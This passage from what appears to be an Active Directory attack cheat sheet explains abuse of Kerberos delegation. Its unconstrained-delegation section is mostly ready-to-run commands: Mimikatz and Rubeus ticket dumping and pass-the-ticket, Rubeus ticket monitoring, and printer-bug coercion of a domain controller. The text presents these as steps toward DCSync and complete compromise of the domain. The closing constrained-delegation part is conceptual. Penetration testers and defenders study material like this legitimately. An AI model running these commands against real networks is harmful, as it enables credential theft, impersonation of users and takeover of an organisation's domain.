 DACL UAC property: `TrustedForDelegation`.

#### Exploitation

With administrative privileges on a server with Unconstrained Delegation set, we can dump the TGTs for other users that have a connection. If we do this successfully, we can impersonate the victim user towards any service in the domain.

With Mimikatz:

```plaintext
sekurlsa::tickets /export
kerberos::ptt c:\path\to\ticket.kirbi
```

Or with Rubeus:

```powershell
.\Rubeus.exe triage
.\Rubeus.exe dump /luid:0x5379f2 /nowrap
.\Rubeus.exe ptt /ticket:doIFSDCC[...]
```

We can also gain the hash for a domain controller machine account, if that DC is vulnerable to the printer bug. If we do this successfully, we can DCSync the domain controller (see below) to completely compromise the current domain.

On the server with Unconstrained Delegation, monitor for new tickets with Rubeus.

```powershell
.\Rubeus.exe monitor /interval:5 /nowrap
```

From attacking machine, entice the Domain Controller to connect using the printer bug. Binary from [here](https://github.com/leechristensen/SpoolSample).

```powershell
.\MS-RPRN.exe \\dc.targetdomain.com \\unconstrained-server.targetdomain.com
```

The TGT for the machine account of the DC should come in in the first session. We can pass this ticket into our current session to gain DCSync privileges (see below).

```powershell
.\Rubeus.exe ptt /ticket:doIFxTCCBc...
```

### Constrained delegation

Constrained delegation can be set on the *frontend server* (e.g. IIS) to allow it to delegate to *only selected backend services* (e.g. MSSQL) on behalf of the user.

DACL UAC property: `TrustedToAuthForDelegation`. This allows `s4u2self`, i.e. requesting a TGS on behalf of *anyone* to oneself, using just the NTLM password hash. This effectively allows the service to impersonate other users in the domain with just their hash, and is useful in situations where Kerberos isn't used between the user and frontend.

DACL Property: `msDS-AllowedToDelegateTo`. This property contains the SPNs it is allowed to use `s4u2proxy` on, i.e. requesting a forwardable TGS for that server based on an existing TGS (often the one gained from using `s4u2self`). This effectively defines the backend services that constrained delegation is allowed for.

